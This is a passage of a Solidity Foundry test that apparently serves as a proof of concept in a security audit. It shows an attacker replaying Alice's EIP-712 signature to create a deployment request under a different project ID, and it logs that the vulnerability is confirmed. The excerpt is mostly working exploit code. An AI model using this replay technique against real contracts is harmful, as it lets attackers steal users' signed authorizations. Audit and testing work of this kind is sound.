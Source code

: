 ```solidity
        // Alice gets the digest for her proposal request
        bytes32 proposalDigest = blueprint.getRequestProposalDigest(aliceProjectId, base64Param, serverURL);
        
        // Alice signs the digest with her private key
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(alicePrivateKey, proposalDigest);
        bytes memory aliceSignature = abi.encodePacked(r, s, v);
        
        // Alice creates her project ID and proposal request with signature
        bytes32 proposalRequestID = blueprint.createProjectIDAndProposalRequestWithSig(
            aliceProjectId, 
            base64Param, 
            serverURL, 
            aliceSignature
        );
        
        console.log("Alice created project and proposal with request ID:", vm.toString(proposalRequestID));
        
        // Verify Alice is associated with her project
        bytes32 aliceProject = blueprint.latestProjectID(alice);
        assertEq(aliceProject, aliceProjectId, "The project should be associated with Alice");
        
        vm.stopPrank();
        
        // Step 2: Attacker observes Alice's signature on-chain and decides to exploit it
        vm.startPrank(attacker);
        
        // Attacker tries to use Alice's signature for a completely different operation
        // - Different project ID
        // - Different operation (deployment instead of proposal)
        
        console.log("\n=== ATTACK SCENARIO ===");
        console.log("Attacker observed Alice's signature and is now attempting to replay it");
        
        // The attacker tries to use Alice's signature for their own project
        try blueprint.createProjectIDAndDeploymentRequestWithSig(
            attackerProjectId,
            base64Param,
            serverURL,
            aliceSignature  // Replay Alice's signature
        ) returns (bytes32 deploymentRequestID) {
            console.log("ATTACK SUCCEEDED! Deployment request ID:", vm.toString(deploymentRequestID));
            
            // The attack succeeds if the signature can be used for a different project
            emit log_string("VULNERABILITY CONFIRMED: EIP712 signature can be replayed for different projects and operations!");
            
            // Check if the deployment request is associated with Alice (the original signer)
            bytes32 latestDeploymentRequestId = blueprint.getLatestDeploymentRequestID(alice);
            if (latestDeploymentRequestId == deploymentRequestID) {
                console.log("The deployment request is associated with Alice instead of the attacker!");
                console.log("This means the attacker has effectively stolen Alice's authorization.");
            }
        } catch Error(string memory reason) {
            console.log("Attack reverted with reason:", reason);
            fail();
        } catch {
            console.log("Attack reverted without specific reason");
            fail();
```